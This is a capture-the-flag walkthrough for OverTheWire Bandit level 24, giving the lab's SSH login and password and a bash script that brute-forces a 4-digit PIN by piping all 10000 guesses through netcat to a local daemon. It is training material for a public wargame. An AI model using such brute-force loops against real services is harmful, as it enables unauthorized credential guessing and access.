 # Bandit Level 24 → Level 25


# Goal
> A daemon is listening on `port 30002` and will give you the password for bandit25.
-  if given the password for bandit24 `and` a secret numeric 4-digit pincode. 
- There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
- You do not need to create new connections each time.


## SSH
```bash
password : gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
ssh bandit24@bandit.labs.overthewire.org -p 2220
```


# Solution
![level 24](/image/level24.png)

```bash
#!/bin/bash
{
  for i in $(seq -w 0000 9999)
  do
     echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"
  done
} | nc localhost 30002

```
![level 24II](/image/level24II.png)
